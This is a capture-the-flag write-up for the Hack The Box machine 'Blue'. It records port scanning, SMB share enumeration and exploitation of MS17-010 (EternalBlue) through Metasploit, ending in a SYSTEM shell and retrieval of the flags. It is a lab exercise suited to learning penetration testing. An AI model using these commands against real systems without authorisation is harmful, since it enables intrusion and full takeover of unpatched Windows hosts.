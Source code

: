 # Blue
## SMB
## CVE
## Metasploit
``````

➜  sudo vi /etc/hosts
Add:

10.10.10.40 blue.htb

➜  rustscan -a blue.htb --ulimit 5000

PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
49152/tcp open  unknown      syn-ack
49153/tcp open  unknown      syn-ack
49154/tcp open  unknown      syn-ack
49155/tcp open  unknown      syn-ack
49156/tcp open  unknown      syn-ack
49157/tcp open  unknown      syn-ack

➜  sudo nmap -Pn -sV -T4 -p- -oA blue -vv blue.htb 

PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

➜  smbclient -L //blue.htb/

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk  

➜  smbclient //blue.htb/Share

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 14 08:48:44 2017
  ..                                  D        0  Fri Jul 14 08:48:44 2017

➜  smbclient //blue.htb/Users

Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Jul 21 01:56:23 2017
  ..                                 DR        0  Fri Jul 21 01:56:23 2017
  Default                           DHR        0  Tue Jul 14 02:07:31 2009
  desktop.ini                       AHS      174  Mon Jul 13 23:54:24 2009
  Public                             DR        0  Tue Apr 12 02:51:29 2011

smb: \> get desktop.ini 
smb: \Public\Libraries\> get RecordedTV.library-ms 
smb: \> exit

➜  sudo nmap -Pn -sCV -T4 -p- -vv blue.htb  

Host script results:
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-06-25T04:46:02
|_  start_date: 2022-06-25T04:37:41
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 56624/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12383/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 19006/udp): CLEAN (Timeout)
|   Check 4 (port 49417/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-06-25T05:46:00+01:00
|_clock-skew: mean: -19m56s, deviation: 34m36s, median: 2s

Note the OS:

Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)

GoogleFu:

samba Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1) exploit

Response:

https://www.exploit-db.com/exploits/42315

CVE-MS17-010

➜  searchsploit MS17-010

Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Executio | windows/remote/42031.py

➜  sudo msfconsole
msf6 > search MS17-010
msf6 exploit(windows/smb/ms17_010_psexec) > show options
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set lhost tun0
msf6 exploit(windows/smb/ms17_010_psexec) > run
meterpreter > shell
C:\Windows\system32>whoami

nt authority\system

C:\Windows\system32>dir C:\Users /s /b | findstr /e .txt

C:\Users\Administrator\Desktop\root.txt
C:\Users\haris\Desktop\user.txt

C:\Windows\system32>type C:\Users\haris\Desktop\user.txt

user_flag

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt

root_flag

``````

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220624235939.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000112.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000206.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000253.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000351.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000457.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000602.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000703.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000754.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000933.png)

#hacking
